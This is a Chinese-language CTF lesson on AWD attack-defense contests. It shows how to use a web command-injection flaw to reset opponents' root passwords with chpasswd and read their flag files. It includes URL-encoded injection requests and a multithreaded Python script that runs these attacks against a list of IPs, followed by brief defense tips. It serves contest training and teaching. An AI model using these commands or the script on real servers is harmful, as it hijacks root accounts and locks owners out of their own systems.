




# AWD攻防赛：P1：批量修改SSH密码与命令执行获取Flag

## 概述

在本节课中，我们将学习在AWD攻防赛中，如何利用批量修改SSH密码和命令执行漏洞来获取对手服务器的Flag。我们将从基础概念开始，逐步讲解操作步骤，确保初学者能够理解并掌握核心技巧。

---

## 核心概念与准备工作

上一节我们介绍了AWD比赛的基本背景，本节中我们来看看执行攻击前需要了解的核心概念和准备工作。

在AWD比赛中，每支队伍维护多台服务器。攻击的目标是获取其他队伍服务器上的Flag文件内容，同时保护自己的服务器。我们主要利用两种技术：
1.  **批量修改SSH密码**：通过漏洞获取对手服务器的SSH访问权限后，批量修改其密码，防止对方登录修复。
2.  **命令执行获取Flag**：利用Web应用漏洞（如命令注入）在对手服务器上执行命令，直接读取Flag文件。

以下是开始前需要明确的几个要点：
*   **Flag位置**：通常Flag文件位于服务器的固定路径，例如 `/flag`。
*   **漏洞利用**：需要提前分析目标Web应用存在的漏洞点。
*   **批量操作**：由于目标服务器众多，手动操作效率低下，需编写脚本进行批量攻击。

---



## 攻击流程详解

了解了基本概念后，我们进入实战环节，看看一次完整的攻击是如何分步进行的。

### 第一步：信息收集与漏洞确认

首先，我们需要确认目标服务器上存在可利用的漏洞。常见的漏洞类型包括命令注入、文件包含等。假设我们发现一个URL参数存在命令注入漏洞。

**示例漏洞URL**：
```
http://target_ip:port/vuln.php?cmd=whoami
```
如果该页面返回了服务器当前用户名（如 `www-data`），则证实存在命令执行漏洞。

### 第二步：通过命令执行修改SSH密码

确认漏洞后，我们可以通过注入命令来修改目标服务器的SSH密码，从而“占领”该服务器。

**核心命令**：
通过Web漏洞执行以下命令：
```bash
echo ‘root:NewPassword123!’ | chpasswd
```
这条命令使用 `chpasswd` 工具，将root用户的密码修改为 `NewPassword123!`。



**实际操作**：
将上述命令进行URL编码，并通过存在漏洞的参数提交。
```
http://target_ip:port/vuln.php?cmd=echo+‘root:NewPassword123!’+%7C+chpasswd
```
执行成功后，我们便可以用新密码通过SSH登录对方的root账户。

### 第三步：获取Flag文件内容

控制SSH后，获取Flag就非常简单了。直接登录并读取文件即可。

**通过SSH登录并获取Flag**：
```bash
ssh root@target_ip
# 输入密码: NewPassword123!
cat /flag
```
或者，如果不想完全登录，也可以直接通过Web漏洞执行读取命令：
```
http://target_ip:port/vuln.php?cmd=cat+/flag
```

### 第四步：批量自动化攻击



在比赛中，我们需要同时对多个目标IP进行上述操作。这时就需要编写脚本来自动化完成。

**简单的批量攻击脚本思路（Python示例）**：
```python
import requests
import threading

# 目标IP列表
target_ips = [‘192.168.1.101‘, ‘192.168.1.102‘, ‘192.168.1.103‘]
vuln_url = “/vuln.php?cmd=“
new_password = “NewPassword123!“

def attack(ip):
    # 1. 修改SSH密码
    change_pass_cmd = f“echo ‘root:{new_password}‘ | chpasswd“
    change_pass_url = f“http://{ip}:80{vuln_url}{requests.utils.quote(change_pass_cmd)}“
    try:
        requests.get(change_pass_url, timeout=3)
        print(f“[+] {ip} 密码修改可能成功”)
    except:
        print(f“[-] {ip} 连接失败”)

    # 2. 尝试获取Flag
    get_flag_cmd = “cat /flag“
    get_flag_url = f“http://{ip}:80{vuln_url}{requests.utils.quote(get_flag_cmd)}“
    try:
        flag_resp = requests.get(get_flag_url, timeout=3)
        if flag_resp.status_code == 200:
            print(f“[+++] {ip} 的Flag是: {flag_resp.text.strip()}“)
    except:
        pass

# 使用多线程并发攻击
threads = []
for ip in target_ips:
    t = threading.Thread(target=attack, args=(ip,))
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```
这个脚本会遍历目标IP列表，尝试利用漏洞修改密码并读取Flag。



---

## 防御建议

在攻击对手的同时，保护自己的服务器至关重要。以下是一些关键的防御措施：
*   **修补漏洞**：第一时间审计并修复自己Web应用中的命令注入等漏洞。
*   **监控日志**：密切关注SSH登录日志 (`/var/log/auth.log`) 和Web服务器日志，发现异常登录或攻击尝试。
*   **使用复杂密码**：避免使用弱密码，防止被暴力破解或意外修改。
*   **限制SSH**：可以配置SSH只允许密钥登录，或限制来源IP。

---

## 总结

本节课中我们一起学习了在AWD攻防赛中一个关键的攻击链：**利用Web命令执行漏洞批量修改对手SSH密码，并获取Flag**。我们分解了从漏洞确认、密码修改、Flag获取到批量自动化的完整步骤，并提供了简单的Python脚本示例。同时，也简要讨论了如何防御此类攻击。掌握这些技巧，能帮助你在比赛中更有效地得分。在下一节中，我们将探讨其他常见的攻击与防御技术。